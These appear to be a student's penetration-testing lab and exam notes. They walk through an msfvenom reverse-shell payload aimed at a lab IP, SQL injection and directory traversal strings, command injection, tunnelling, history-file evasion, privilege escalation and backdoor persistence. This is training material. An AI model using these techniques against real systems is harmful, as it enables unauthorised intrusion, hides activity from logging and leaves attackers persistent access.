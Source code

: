 ```
getting onto a windows using msfvenom, run msfvenom -p windows/shell/reverse_tcp lhost=10.50.27.207 lport=10006 -b "\x00" -f python and grab everything but the buf = b"" line and paste it into the script, set up msfconsole and run it to wait for the connection to go through, once connection is good go to /Users and see what users we have creds for then move onto making another ssh tunnel to the box, use xfreerdp /v:127.0.0.1:10402 /u:Lroth /glyph-cache /clipboard /dynamic-resolution to log in then enter password.

First target exploit nmap scan for what is available on system, then --script= http-enum to see what is available. Go to website and open all the tabs and see what is on the website to exploit or flags. If a login page try ' OR 1='1 in both fields and look at the post request and copy and paste into the search bar with a ? at the end of the original html and it should spit out passwords. View page source for easier viewing. go to the other pages and see what we can exploit. use ; to try and break the cat page for command injection, try ../../../../etc/passwd (shows who has a shell)(directory traversal) or hint hint ../../../../etc/hosts for other machines. Create a master socket to the box and log on from the creds found. Unset histfile and run a ping sweep and copy down ips we get. Create a dynamic tunnel to use proxychains to nmap the ips we got. you can use 192.168.28.172,181 with nmap to scan ips. Check ports with proxychains nc. create tunnels to the ips have to use multiple -L when making tunnels to two ports or more. Use firefox to log onto new website

Exploiting radio buttons
go through every single button and see which one allows us to exploit using <URL>? OR 1=1, verify how many fields by doing union select 1,2,3 to see how it gets displayed, see if more info can get displayed by adding more numbers, then golden rule to see user created databases, use the golden rule as a template to put in the information gathered to enumerate the system, make sure to break it out to look through everything, read the questions to see if you are done with the box

# Using creds found and priv esc
create master socket to new ip with the creds and make sure to run sudo -l. If sudo shows something we can use to priv esc use it, if not use the find / whatever command to look for weird software to be able to use to priv escalate. Look through all the stuff and enumerate and can create backdoor or persistance, run ip neigh or /etc/hosts to find other devices, create dynamic tunnel to nmap the hosts to see whats available on the devices found

# Windows exploit
listen on nc to ports and see if buffer overflow can be conducted, run through the steps and boom on device
```
# good nmap scripts
```
nmap --script http-enum <IP>
nmap -Pn -T5 -sT -p 80 --script http-sql-injection.nse <IP>
```
# TCPDUMP
sudo tcpdump -i ens3 not port 3201 -XXvv

# EXAM
```
Recon
WebEx (minus XSS) input validation (test everything) find vulnerable field, test how many columns, golden rule(if its more than three display columns make sure to pad with numbers), malicious file upload steps, where its going, if we can upload, where we can run it, will not need to create payloads
Reverse engeneering (disassemble and figure out how to make it do what we want)
if(x * 18 =72){<code>} do the math to figure out the problem (>>) is bitshift to the left to get the number cause it will shift what you put in to the right
Exploit Development (Both linux and windows exploit)
Post Ex (Check alot of places and recon the device and see what people are doing, cronjobs, remote logging, escalate privs both windows and linux)
Win Ex
Lin Ex
```